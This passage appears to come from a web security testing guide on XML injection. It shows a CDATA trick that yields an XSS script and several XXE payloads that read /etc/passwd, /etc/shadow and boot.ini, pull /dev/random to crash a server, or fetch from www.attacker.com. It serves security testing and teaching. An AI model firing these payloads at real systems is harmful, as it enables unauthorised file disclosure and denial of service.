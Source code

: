 Let's consider a concrete example. Suppose we have a node containing some text that will be displayed back to the user.

```xml
<html>
    $HTMLCode
</html>
```

Then, an attacker can provide the following input:

`$HTMLCode = <![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>`

and obtain the following node:

```xml
<html>
    <![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>
</html>
```

During the processing, the CDATA section delimiters are eliminated, generating the following HTML code:

```javascript
<script>
    alert('XSS')
</script>
```

The result is that the application is vulnerable to XSS.

External Entity: The set of valid entities can be extended by defining new entities. If the definition of an entity is a URI, the entity is called an external entity. Unless configured to do otherwise, external entities force the XML parser to access the resource specified by the URI, e.g., a file on the local machine or on a remote systems. This behavior exposes the application to XML eXternal Entity (XXE) attacks, which can be used to perform denial of service of the local system, gain unauthorized access to files on the local machine, scan remote machines, and perform denial of service of remote systems.

To test for XXE vulnerabilities, one can use the following input:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///dev/random" >]>
        <foo>&xxe;</foo>
```

This test could crash the web server (on a UNIX system), if the XML parser attempts to substitute the entity with the contents of the /dev/random file.

Other useful tests are the following:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/shadow" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]><foo>&xxe;</foo>
```

